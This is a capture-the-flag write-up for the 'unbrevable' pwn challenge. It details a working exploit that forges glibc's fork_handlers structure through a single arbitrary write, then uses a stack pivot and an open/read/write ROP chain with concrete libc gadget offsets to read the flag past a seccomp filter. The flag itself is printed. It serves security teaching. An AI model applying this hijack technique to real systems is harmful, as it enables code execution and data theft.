








# unbrevable

| | |
|---|---|
| Event | The Few Chosen CTF 2026 |
| Category | pwn |
| Difficulty | baby |
| Author | minipif |
| Points at close | 119 |
| Solves | 122 |
| Status | solved |

> should be easy? now in pwn

Files: [`unbrevable.zip`](handout/unbrevable.zip)

<details>
<summary><b>Solution</b></summary>

The program ends on `fork()`, and the seccomp filter doesn't allow `clone`. But glibc's `fork` calls `__run_fork_handlers` before the syscall, and that function reads a structure out of libc `.bss` at `libc+0x221ae0`. The program's one arbitrary write reaches it. A forged structure turns `fork()` into an indirect call with a target and a first argument you pick. The rest is a stack pivot and an open, read, and write chain.

## Recon

```
$ unzip -l handout/unbrevable.zip
$ file scratch/vuln_patched
$ checksec --file=scratch/vuln_patched
```

The zip holds the binary, a pinned `ld-2.35.so`, a pinned `libc.so.6`, and a Dockerfile. `checksec` gives Full RELRO, a canary, NX, and PIE, so every address in the exploit has to come from a leak.



Ghidra's decompilation of `main`, in [`artifacts/vuln.c`](artifacts/vuln.c), runs straight through without a loop.

```c
init(param_1);                          // setvbuf on all three streams
setup_seccomp();
printf("%p\n", PTR_setvbuf_00103fe8);   // the resolved setvbuf GOT entry, free libc leak
__isoc99_scanf("%zu %zu ", &local_20, local_18);
fgets(local_20, local_18[0], stdin);    // one write, arbitrary address, arbitrary length
fork();
return 0;
```

The `printf` leaks the resolved GOT entry for `setvbuf`, so the libc base is `leak - libc.symbols['setvbuf']`. `scanf` reads a destination pointer and a length in decimal, and `fgets` writes that many bytes there, once. Then `main` calls `fork()`. The format `"%zu %zu "` ends in a space, so `scanf` eats trailing whitespace. That lets the payload follow the two numbers on the next send.



```
$ sed -n '/---- setup_seccomp/,/^}$/p' artifacts/vuln.c
```

The allowlist is `read`, `write`, `open`, `openat`, `rt_sigprocmask`, `rt_sigreturn`, `exit`, `exit_group`, and `execveat`, and everything else returns `KILL_PROCESS`. Blocking `mmap` and `execve` rules out shellcode and `system("/bin/sh")`, so the payload is an open, read, and write chain on the flag file.



The filter doesn't allow `clone` either, so `fork()` kills the process. Feeding `0 0` on stdin makes `fgets` write nothing and shows an untouched run.

```
$ docker run --rm -v "$PWD:/w:ro" -w /tmp ubuntu:22.04 bash -c \
    'cp /w/vuln_patched /w/ld-2.35.so /w/libc.so.6 /tmp/; printf "0 0\n" > in; ./vuln_patched < in; echo $?'
159
```

Exit status 159 is 128 plus 31, SIGSYS, so the kernel killed the process at `clone`. But glibc's `fork` does work before it gets there.

## What runs before `clone`

```
$ readelf -sW libc.so.6 | grep -w fork_handlers
  1811: 0000000000221ae0  1560 OBJECT  LOCAL  DEFAULT   35 fork_handlers
$ objdump -d --start-address=0xeaf17 --stop-address=0xeaf5d -M intel libc.so.6
```

```
eaf17:  mov    rbp,QWORD PTR [rip+0x136bc2]   # 221ae0 <fork_handlers>
eaf1e:  mov    rdi,rbp
eaf21:  test   rbp,rbp
eaf24:  jne    eaf54
eaf30:  mov    rax,rbp
eaf33:  shl    rax,0x5
eaf37:  add    rax,QWORD PTR [rip+0x136bb2]   # 221af0 <fork_handlers+0x10>
eaf3e:  mov    rax,QWORD PTR [rax]
eaf41:  test   rax,rax
eaf44:  je     eaf48
eaf46:  call   rax
eaf54:  sub    rbp,0x1
eaf58:  cmp    rbp,rdi
eaf5b:  jb     eaf30
```

`__run_fork_handlers` makes an indirect call through writable libc memory. `fork_handlers.used` loads into `rbp` at `eaf17` and into `rdi` at `eaf1e`. The loop decrements `rbp`, fetches the handler pointer from `fork_handlers.array + (used-1)*32`, and calls it.



The value in `used` becomes `rdi`, so set `used` to the address `A` you want in `rdi`. You want `array + (used-1)*32` to land on a slot `H` you control. So `array` holds `H - (A-1)*32`, which wraps mod 2^64, and glibc's index arithmetic undoes the wrap. [`solve/solve.py`](solve/solve.py) puts the structure at `B = libc+0x221ae0` with `A = B+0x20` and `H = B+0x30`. The forgery, the `rdi` target, the handler pointer, the string `flag`, and the ROP chain fit in one 0x400-byte blob.



## The pivot

At the hijacked `call rax` you control only the target and `rdi`, so the first gadget has to turn that register into a stack.

```
$ objdump -d --start-address=0x167420 --stop-address=0x16742e -M intel libc.so.6
  libc+0x167420:  mov    rdx,QWORD PTR [rdi+0x8]
  libc+0x167424:  mov    QWORD PTR [rsp],rax
  libc+0x167428:  call   QWORD PTR [rdx+0x20]
```

The gadget loads `rdx` from memory you wrote and calls through it, so `rdi` picks both the new stack and the gadget that installs it. `libc+0x5a120` is `mov rsp,rdx ; ret`. Then `libc+0x45f25`, `add rsp,0x28 ; ret`, steps the new stack past the pivot slot so the chain doesn't re-enter the pivot. After those three the process has an ordinary ROP stack inside libc `.bss`.



## The file descriptor is not 3

socat forks per connection and leaks its own descriptors into the child. Descriptors 0 through 5 are already taken and 3 is a socket, so a hardcoded `read(3, ...)` blocks forever.

The first descriptor `open("flag")` can return is 6. Hardcoding 6 breaks if socat ever holds a different number, so the chain moves the real return value into `rdi`.

```
  libc+0x90088:  mov    rdi,rax
  libc+0x9008b:  call   QWORD PTR [rbx+0x360]
```

The gadget needs a usable pointer at `rbx+0x360`. The chain sets `rbx = B` early with a `pop rdx ; pop rbx ; ret` and plants `add rsp,8 ; ret` at `B+0x360`. That brings the chain back to its next slot.

```python
chain = [
    base + G_RDXRBX, 0, B,        # rbx = B, so [rbx+0x360] is the add rsp,8 we planted
    base + G_RDI, NAME,           # "flag", sitting at B+0x38
    base + G_RSI, 0,
    base + s["open"],
    base + G_RDIRAX,              # rdi = the fd open actually returned
    base + G_RSI, BUF,
    base + G_RDXRBX, 0x100, B,
    base + s["read"],
    base + G_RDI, 1,
    base + G_RSI, BUF,
    base + G_RDXRBX, 0x100, B,
    base + s["write"],
    base + G_RDI, 0,
    base + s["_exit"],
]
```



## Newlines in the payload

`fgets` stops at `0x0a`, and nearly every qword in the payload comes from the libc base. So a connection works or fails on that run's ASLR. I ran the real `build_payload` over 20,000 random page-aligned bases, and 11.2% of the payloads held a `0x0a` byte.

About one connection in nine is wasted. [`solve/solve.py`](solve/solve.py) checks each payload for the byte before sending, reconnects when it finds one, and gives up after thirty attempts. Setting `CTF_LOCAL=1` points it at a local container built from the handout Dockerfile.



Flag: `TFCCTF{well_known_technique_brudda}`
</details>
